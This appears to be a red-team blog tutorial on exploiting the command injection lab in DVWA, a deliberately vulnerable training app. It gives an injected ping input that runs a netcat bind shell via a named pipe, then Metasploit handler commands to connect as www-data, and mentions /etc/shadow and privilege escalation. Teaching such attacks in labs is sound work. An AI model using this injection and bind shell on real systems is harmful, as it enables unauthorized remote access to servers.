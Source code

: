 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when the vulnerable application skips the input validation before executing a shell command on the host operating system.
We'll get our hands on DVWA's Command Injection section, and then we'll open a backdoor on the host, using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

The page says that it will ping an IP address for us, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input in the underlying bash command!

Now, let's listen on port *4444* and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you noticed the page is loading forever, so our backdoor is open and waiting for us... :smile:

Let's start msfconsole and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is *4444*.

As you notice we are the *www-data* user, and that's why we can't read the /etc/shadow file, which contains the user passwords of the operating system.
But, we have all the privileges that *www-data* user has, and that's enough for e.g. modifying DVWA, or exploiting a local privilege escalation vulnerability on the server, in order to get root privileges.

Happy binding!
